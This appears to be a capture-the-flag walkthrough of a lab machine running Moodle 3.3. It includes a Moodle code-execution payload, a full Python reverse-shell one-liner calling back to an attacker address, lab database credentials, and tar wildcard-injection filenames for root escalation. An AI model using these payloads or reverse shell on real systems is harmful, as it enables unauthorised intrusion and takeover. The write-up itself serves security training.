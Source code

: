 ![logo](./logo.png)

# User

Began with standard enum. Nmap and gobuster. Only port open is a standard webpage

Webpage has a 'moodle' service active

Could be CRSF here:
http://10.10.10.153/moodle/error/ 

Anther box for possible SQL Injection: 
http://10.10.10.153/moodle/tag/search.php

Seem to be using moodle Version 3.3


Found a message encoded as a stupid image

```
Hi Servicedesk,

I forgot the last charachter of my password. The only part I remembered is Th4C00lTheacha.

Could you guys figure out what the last charachter is, or just reset it?

Thanks,
Giovanni
```

Need to try and brute force it. 

Code used:
```
brute.py
```

After a brute force the missing character is a "#"

```
Giovanni
Th4C00lTheacha#
```

To get a shell it looks like I need to get evil:
https://blog.ripstech.com/2018/moodle-remote-code-execution/

Payload:
```
/*{a*/`$_GET[0]`;//{x}}
```

Reverse shell
```
&0=(python -c 'import socket,subprocess,os;IP="10.10.14.55";PORT=6868;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((IP,PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);')
```

The automated process can be found in:
```
automated_shell.py
```

In the directory you land in you can find a ```config.php``` that contains db creds for a hosted database
```
root
Welkom1!
```

Naviagating to the mdl_user, gives us a md5 hash for the user

```
mysql -P 3306 -u root -pWelkom1! moodle
```

Credentials:
```
giovanni
expelled
```

This lets us elevate to user

# ROOT

On the machine there is a process running called /usr/bin/backup.sh running as root

```
#!/bin/bash
cd /home/giovanni/work;
tar -czvf tmp/backup_courses.tar.gz courses/*;
cd tmp;
tar -xf backup_courses.tar.gz;
chmod 777 * -R
```

Because of the wildcard on the tar command. We can give files in the directory names 
that act as params. However the use of "/*" in the code makes this attack non executable

e.g.
```
echo "" > "--checkpoint=1"
echo "" > "--checkpoint-action=exec=shell.sh"
```

By adding a root directory symlink in the work directory. 
The chmod 777 * -R command runs over the root directory and allows us to read it
